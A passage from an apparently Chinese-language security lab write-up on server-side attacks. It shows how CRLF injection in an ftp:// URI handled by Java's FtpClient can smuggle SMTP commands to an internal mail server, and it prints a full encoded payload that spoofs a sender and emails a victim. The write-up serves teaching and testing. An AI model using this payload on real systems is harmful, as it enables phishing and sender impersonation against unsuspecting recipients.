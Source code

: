 **下面是我的实验录屏：**

[![img](assets/1667437014966-660365d5-7372-45b9-b106-e4a8b328f73e.gif)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/test.gif)实验就到这一步了，怎么利用就看各位大佬的了（坏笑）

### **实验七：钓鱼：**

如果内网有一台易受攻击的 SMTP 服务器，我们就能利用 ftp:// 协议结合 CRLF 注入向其发送任意命令，也就是可以指定其发送任意邮件给任意人，这样就伪造了信息源，造成钓鱼（一下实例来自fb 的一篇文章 ）

Java支持在sun.net.ftp.impl.FtpClient中的ftp URI。因此，我们可以指定用户名和密码，例如ftp://user:password@host:port/test.txt，FTP客户端将在连接中发送相应的USER命令。

但是如果我们将%0D%0A (CRLF)添加到URL的user部分的任意位置，我们就可以终止USER命令并向FTP会话中注入一个新的命令，即允许我们向25端口发送任意的SMTP命令：

**示例代码：**

```plain
ftp://a%0D%0A
EHLO%20a%0D%0A
MAIL%20FROM%3A%3Csupport%40VULNERABLESYSTEM.com%3E%0D%0A
RCPT%20TO%3A%3Cvictim%40gmail.com%3E%0D%0A
DATA%0D%0A
From%3A%20support%40VULNERABLESYSTEM.com%0A
To%3A%20victim%40gmail.com%0A
Subject%3A%20test%0A
%0A
test!%0A
%0D%0A
.%0D%0A
QUIT%0D%0A
:a@VULNERABLESYSTEM.com:25
```
